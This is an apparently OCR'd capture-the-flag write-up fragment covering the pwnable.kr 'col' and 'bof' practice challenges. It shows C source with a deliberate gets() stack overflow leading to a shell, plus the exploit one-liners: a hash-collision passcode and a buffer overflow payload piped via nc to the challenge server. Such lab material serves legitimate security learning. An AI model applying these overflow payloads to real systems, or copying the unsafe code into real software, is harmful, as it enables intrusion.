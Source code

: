 int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}

col@ubuntu:~$ ./col $(python -c 'print "\xcc\xcc\xcc\x01"*4 + "\xbc\xd6\xa9\x1a"')


Toddler's Bottle - bof

cat bof.c                                                                                                                                                                (master) 1
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

$ (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -)|nc pwnable.kr 9000                                                                                                  (master) 1
ls
bof
bof.c
flag
log
super.pl
cat flag
